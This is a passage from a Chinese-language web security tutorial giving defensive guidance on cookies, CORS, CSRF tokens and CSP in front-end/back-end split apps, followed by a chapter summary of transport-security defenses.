- 它们依赖浏览器正确实现和执行，攻击者的工具（curl、自定义 HTTP 客户端）不受浏览器安全策略限制
- CSP 配置错误（如包含 `unsafe-inline`）会大幅削弱其保护效果
- 这些头必须配合正确的代码实践（输出编码、参数化查询等）才有意义

## 常见问题与解决方案

### 问题 1：前后端分离项目，开发环境 Cookie 无法发送

**现象**：前端（`localhost:5173`）登录后，后端（`localhost:3000`）设置的 Cookie 在下一次请求中没有被携带。

**原因剖析**：跨端口属于跨域，Cookie 的 `SameSite` 策略阻止了 Cookie 在跨域请求中发送。

**解决方案**：

开发环境使用反向代理（Vite 的 proxy 配置），让前后端看起来同源：

```typescript
// vite.config.ts
export default defineConfig({
  server: {
    proxy: {
      '/api': {
        target: 'http://localhost:3000',
        changeOrigin: true,
      },
    },
  },
});
```

配置后，前端访问 `/api/login` 会被 Vite 开发服务器代理到 `http://localhost:3000/api/login`，浏览器认为是同域请求，Cookie 正常设置和携带。

如果不想用代理，可以在开发环境将 Cookie 设置为 `SameSite=None; Secure`（但需要本地 HTTPS）。

### 问题 2：设置了 CORS，但仍然请求失败

**常见情况**：CORS 预检请求（OPTIONS）成功，但实际请求失败，控制台显示 CORS 错误。

**排查思路**：

1. 确认预检响应中 `Access-Control-Allow-Methods` 包含了实际请求的方法
2. 确认预检响应中 `Access-Control-Allow-Headers` 包含了实际请求发送的所有自定义请求头
3. 如果请求带 Cookie，确认 `Access-Control-Allow-Credentials: true`，且 `Access-Control-Allow-Origin` 不是 `*`
4. 检查实际请求的响应中也包含 `Access-Control-Allow-Origin` 头（不只是预检响应）

```typescript
// 调试时打印响应头
fetch('https://api.example.com/data', {
  credentials: 'include',
}).then((r) => {
  console.log('CORS headers:', {
    allowOrigin: r.headers.get('access-control-allow-origin'),
    allowCredentials: r.headers.get('access-control-allow-credentials'),
  });
});
```

### 问题 3：CSRF Token 如何与前后端分离架构配合？

在前后端分离的架构中（前端是独立的 SPA），传统的"将 CSRF Token 嵌入 HTML 表单"方案不再适用。

**方案一：Cookie-to-Header Token（推荐）**

服务器在登录成功时设置两个 Cookie：

- `session_id`：HttpOnly，携带会话标识，JS 不可读
- `csrf_token`：非 HttpOnly，携带 CSRF Token，JS 可读

前端在每次请求前从 Cookie 中读取 `csrf_token`，放入请求头 `X-CSRF-Token`：

```typescript
// 前端请求封装
async function apiRequest(url: string, options: RequestInit = {}) {
  // 从 Cookie 中读取 CSRF Token
  const csrfToken = document.cookie
    .split(';')
    .find((c) => c.trim().startsWith('csrf_token='))
    ?.split('=')[1];

  return fetch(url, {
    ...options,
    credentials: 'include',
    headers: {
      'Content-Type': 'application/json',
      'X-CSRF-Token': csrfToken ?? '',
      ...options.headers,
    },
  });
}
```

**方案二：SameSite=Lax + CORS 白名单（现代方案）**

在现代浏览器环境中（2020 年后），如果：

- Session Cookie 设置了 `SameSite=Lax` 或 `SameSite=Strict`
- CORS 配置了严格的白名单（不使用 `*`）

那么 CSRF 攻击已经无法成功——攻击者无法同时满足 SameSite 的限制和 CORS 的来源验证。在这种情况下，CSRF Token 可以视业务需要决定是否额外添加。

### 问题 4：CSP 影响了第三方库或内联样式该怎么办？

**症状**：添加 CSP 后，Vite 热重载失效、内联样式不生效、Google Analytics 被阻止。

**解决思路**：

1. **内联样式（`style-src 'unsafe-inline'`）**：React/CSS-in-JS 框架常常依赖内联样式，可以使用 nonce 或哈希白名单替代 `unsafe-inline`
2. **第三方脚本**：将可信的第三方域名加入 `script-src`，如：

```plaintext
Content-Security-Policy:
  script-src 'self' https://www.googletagmanager.com;
  img-src 'self' https://www.google-analytics.com;
  connect-src 'self' https://www.google-analytics.com;
```

3. **开发阶段**：CSP 支持报告模式，只报告违规不拦截，用于调试：

```plaintext
Content-Security-Policy-Report-Only: default-src 'self'; report-uri /csp-report
```

先用报告模式收集违规，再逐步完善策略。

### 问题 5：如何验证自己的网站安全响应头配置是否正确？

推荐使用以下在线工具：

- **SecurityHeaders.com**：免费检测网站响应头，给出 A+ 到 F 的评级和改进建议
- **SSL Labs（Qualys SSL Test）**：深度检测 TLS 配置，包括证书链、密码套件、HSTS 等
- **Mozilla Observatory**：Mozilla 提供的综合安全检测，覆盖 CORS、CSP、Cookie 等
- **CSP Evaluator**（Google）：专门分析 CSP 策略强度和潜在漏洞

本地开发可以用 Chrome DevTools 的 Security 面板查看 TLS 连接信息，Network 面板过滤 `preflight` 查看 CORS 预检请求。

## 本篇小结

本章从用户请求到达服务器的整个传输链路出发，系统覆盖了现代 Web 应用传输安全的核心防御体系：

**HTTPS/TLS**：通过对称加密（保密）、消息认证码（完整性）、数字证书（身份认证）三层机制，TLS 1.3 配合 ECDHE 密钥交换实现了前向保密。所有生产应用必须强制 HTTPS，并配置 HSTS 防止首次访问的降级风险。

**CORS**：同源策略是浏览器的安全基石，CORS 是在此基础上允许服务器选择性授权跨域数据读取的机制。配置时：显式白名单替代通配符 `*`，携带 Cookie 的跨域请求需要 `credentials: true` 配合具体 Origin，预检缓存减少额外往返。

**CSRF**：攻击者借用浏览器自动携带 Cookie 的机制，以用户身份发起恶意请求。现代防御首选 `SameSite=Lax` Cookie 属性，辅以 CSRF Token（双重 Cookie 验证适合前后端分离），两种手段组合提供稳固防御。

**XSS**：攻击者将恶意脚本注入页面，三种类型（存储型、反射型、DOM 型）的根本防御是输出时进行上下文相关的编码，辅以 CSP 头限制脚本执行来源，`HttpOnly` Cookie 减小 Session 劫持影响。

**Cookie 安全属性**：`Secure`（仅 HTTPS）、`HttpOnly`（防 JS 读取）、`SameSite`（控制跨站发送）是三个必须正确配置的关键属性，任何一个缺失都会引入可被利用的漏洞。

**安全响应头**：以 `helmet` 库为代表的一批安全响应头（HSTS、CSP、X-Content-Type-Options、X-Frame-Options、Referrer-Policy）构成纵深防御的最外层，在代码层面防御措施之外补充一道浏览器级别的控制。

这些安全措施将在后续模块的具体实现中被直接应用：模块二的 Session Cookie 配置、模块三的 JWT 传输、模块四的认证服务端点，都将严格遵循本章建立的安全标准。
